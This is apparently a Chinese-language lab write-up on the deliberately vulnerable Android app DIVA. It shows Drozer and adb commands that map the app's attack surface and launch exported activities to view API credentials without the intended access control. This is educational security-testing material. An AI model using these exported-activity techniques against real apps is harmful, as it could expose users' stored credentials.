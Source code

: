 ```yaml
---
title: Test DIVA - activity exported
tags: [Android, Drozer]

---
```


* DIVA - [Download](https://payatu.com/wp-content/uploads/2016/01/diva-beta.tar.gz)

# Test DIVA - activity exported
參考[^csdn-diva-1][^安全客-diva-1][^安全客-diva-2][^hacktricks-diva-sieve]
1. 起手式 - 確認App資訊
    ```bash
    dz> run app.package.list -f diva
    Attempting to run shell module
    jakhar.aseem.diva (Diva)
    
    dz> run app.package.info -a jakhar.aseem.diva
    Attempting to run shell module
    Package: jakhar.aseem.diva
      Application Label: Diva
      Process Name: jakhar.aseem.diva
      Version: 1.0
      Data Directory: /data/user/0/jakhar.aseem.diva
      APK Path: /data/app/~~ieYmYeSxvDRbS7R8da3n_g==/jakhar.aseem.diva--xnWMS5i2UVEuuoE1JHskg==/base.apk
      UID: 10282
      GID: [3003]
      Shared Libraries: [/system/framework/android.test.base.jar, /system/framework/org.apache.http.legacy.jar]
      Shared User ID: null
      Uses Permissions:
      - android.permission.WRITE_EXTERNAL_STORAGE
      - android.permission.READ_EXTERNAL_STORAGE
      - android.permission.INTERNET
      - android.permission.POST_NOTIFICATIONS
      - android.permission.ACCESS_MEDIA_LOCATION
      - android.permission.READ_MEDIA_AUDIO
      - android.permission.READ_MEDIA_VIDEO
      - android.permission.READ_MEDIA_IMAGES
      Defines Permissions:
      - None

    dz> run app.package.attacksurface jakhar.aseem.diva
    Attempting to run shell module
    Attack Surface:
      3 activities exported
      0 broadcast receivers exported
      1 content providers exported
      0 services exported
        is debuggable
    ```
    package name: jakhar.aseem.diva
    attack surface: activities exported/content providers exported/is debuggable
2. 確認activiy的資訊
    ```bash
    dz> run app.activity.info -a jakhar.aseem.diva
    Attempting to run shell module
    Package: jakhar.aseem.diva
      jakhar.aseem.diva.MainActivity
        Permission: null
      jakhar.aseem.diva.APICredsActivity
        Permission: null
      jakhar.aseem.diva.APICreds2Activity
        Permission: null
    ```
    目前有兩個被export的activity，分別啟動後如下
    ```bash
    dz> run app.activity.start --component jakhar.aseem.diva jakhar.aseem.diva.APICredsActivity
    ```
    ![Screenshot_20240604-155745](https://hackmd.io/_uploads/By3VCB340.png =200x)

    ```bash
    dz> run app.activity.start --component jakhar.aseem.diva jakhar.aseem.diva.APICreds2Activity
    ```
    ![Screenshot_20240604-161940](https://hackmd.io/_uploads/ryTHAS3EA.png =200x)
    按照[^安全客-diva-2]的說明，這是==9.Access Control Issue - Part 1==題目的畫面，原本的設想是不要按`VIEW API CREDENTIALS`這個按鈕也可以取得上面的機敏資料
    
## 另外一種解法
按照[^安全客-diva-2]作者用另外一種方式去load這個activity，先看AndroidManifest.xml，當中有特別寫到這個activity是用intent-filter當作這個activity的類似保護的東西
```xml
<activity android:label="@string/apic_label" android:name="jakhar.aseem.diva.APICredsActivity">
    <intent-filter>
        <action android:name="jakhar.aseem.diva.action.VIEW_CREDS"/>
        <category android:name="android.intent.category.DEFAULT"/>
    </intent-filter>
</activity>
<activity android:label="@string/apic2_label" android:name="jakhar.aseem.diva.APICreds2Activity">
    <intent-filter>
        <action android:name="jakhar.aseem.diva.action.VIEW_CREDS2"/>
        <category android:name="android.intent.category.DEFAULT"/>
    </intent-filter>
</activity>
```
會發現前面找到的兩個activity都出現在這邊，那是否我可以直接用adb，啟動這個activity，並且給予他指定的intent，答案是肯定的
```bash
$ adb shell am start -n jakhar.aseem.diva/.APICredsActivity -a jakhar.aseem.diva.action.VIEW_CREDS
Starting: Intent { act=jakhar.aseem.diva.action.VIEW_CREDS cmp=jakhar.aseem.diva/.APICredsActivity }
$ adb shell am start -n jakhar.aseem.diva/.APICreds2Activity -a jakhar.aseem.diva.action.VIEW_CREDS2
Starting: Intent { act=jakhar.aseem.diva.action.VIEW_CREDS2 cmp=jakhar.aseem.diva/.APICreds2Activity }
```
`am start`: 啟動一個activity
`-n <package name + /. + activity class name>`: 指定哪一個activity
`-a <specified intent>`: 指定的 action，用於告訴應用程式以特定方式處理這個啟動動作

按照上面的指示，就會出現剛剛一樣的畫面了
# Reference
[^csdn-diva-1]:[DIVA靶場測試APP客戶端不規範項（一）](https://blog.csdn.net/weixin_44309905/article/details/123764180)
[^hacktricks-diva-sieve]:[Drozer Tutorial](https://book.hacktricks.xyz/v/cn/mobile-pentesting/android-app-pentesting/drozer-tutorial)
[^安全客-diva-1]:[【技術分享】Android App常見安全問題演練分析系統-DIVA-Part1](https://www.anquanke.com/post/id/84603)
[^安全客-diva-2]:[【技術分享】Android App常見安全問題演練分析系統-DIVA-Part2](https://www.anquanke.com/post/id/86057)